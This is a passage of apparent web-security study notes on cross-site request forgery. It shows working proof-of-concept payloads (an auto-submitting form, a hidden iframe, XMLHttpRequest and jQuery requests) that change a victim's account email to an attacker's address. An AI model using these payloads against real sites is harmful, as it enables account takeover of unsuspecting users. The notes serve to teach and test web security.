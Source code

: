 

Another example uses a new attribute introduced in HTML5, `autofocus` and the related event handler `onfocus`

```html
<form action="change.php " method="POST" id="CSRForm">
    <input name="old" value="myC00Lemail@victim.site">
    <input name="new" value="evil@hacker.site" autofocus onfocus="CSRForm.submit()">
</form>
```





using iframe:

```html
<iframe style="display:none" name="CSRFrame"></iframe>
<form action="change.php " method="POST" id="CSRForm" target="CSRFrame">
    <input name="old" value="myC00Lemail@victim.site">
    <input name="new" value="evil@hacker.site" autofocus onfocus="CSRForm.submit()">
</form>
<script> document.getElementById("CSRForm").submit()</script>
```

`target="CSRFrame"` to display the response received submitting the form in the iframe!





using XMLHttpRequest (XHR):

```javascript
var url = "URL";
var params = "old=mycoolemail@victim.site&new=evil@hacker.site";
var CSRF = new XMLHttpRequest();
CSRF.open("POST", url, false);
CSRF.withCredentials = true;
CSRF.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
CSRF.send(params);
```



using jQuery:

```javascript
$.ajax({
type: "POST",
url: "URL",
data: "old=mycoolemail@victim.site&new=evil@hacker.site",
});
```





----

## Exploiting Weak Anti-CSRF Measures
As seen,  exploiting a CSRF flaw can be straightforward if the website lacks anti CSRF security measures; however, nothing changes if the security defenses are poor or weak.
